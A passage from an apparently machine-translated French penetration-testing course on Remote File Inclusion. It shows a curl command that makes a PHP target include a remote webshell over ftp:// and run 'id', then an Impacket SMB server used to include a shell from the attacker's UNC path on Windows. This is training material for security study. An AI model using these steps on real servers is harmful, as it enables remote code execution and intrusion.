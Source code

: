 Cela peut également être utile si les ports http sont bloqués par un pare-feu ou si la chaîne `http://` est bloquée par un WAF. Pour inclure notre script, nous pouvons répéter ce que nous avons fait précédemment, mais en utilisant le schéma `ftp://` dans l'URL, comme suit :

![](https://academy.hackthebox.com/storage/modules/23/rfi_localhost.jpg)

Comme nous pouvons le voir, cela a fonctionné de manière très similaire à notre attaque http et la commande a été exécutée. Par défaut, PHP essaie de s'authentifier en tant qu'utilisateur anonyme. Si le serveur requiert une authentification valide, les informations d'identification peuvent être spécifiées dans l'URL, comme suit :

```
dsgsec@htb[/htb]$ curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
...COUPER...
uid=33(www-data) gid=33(www-data) groupes=33(www-data)

```

PME
---

Si l'application Web vulnérable est hébergée sur un serveur Windows (ce que nous pouvons dire à partir de la version du serveur dans les en-têtes de réponse HTTP), nous n'avons pas besoin que le paramètre `allow_url_include` soit activé pour l'exploitation RFI, car nous pouvons utiliser le SMB protocole pour l'inclusion de fichiers distants. En effet, Windows traite les fichiers sur les serveurs SMB distants comme des fichiers normaux, qui peuvent être référencés directement avec un chemin UNC.

Nous pouvons créer un serveur SMB à l'aide de `Impacket's smbserver.py`, qui autorise l'authentification anonyme par défaut, comme suit :

```
dsgsec@htb[/htb]$ impacket-smbserver -smb2support share $(pwd)
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Fichier de configuration analysé
[*] Rappel ajouté pour UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Rappel ajouté pour UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Fichier de configuration analysé
[*] Fichier de configuration analysé
[*] Fichier de configuration analysé

```

Maintenant, nous pouvons inclure notre script en utilisant un chemin UNC (par exemple `\\<OUR_IP>\shell.php`) et spécifier la commande avec (`&cmd=whoami`) comme nous l'avons fait précédemment :

![](https://academy.hackthebox.com/storage/modules/23/windows_rfi.png)

Comme nous pouvons le voir, cette attaque fonctionne en incluant notre script distant, et nous n'avons pas besoin d'activer des paramètres autres que ceux par défaut. Cependant, nous devons noter que cette technique est "plus susceptible de fonctionner si nous étions sur le même réseau", car l'accès aux serveurs SMB distants via Internet peut être désactivé par défaut, selon les configurations de serveur Windows.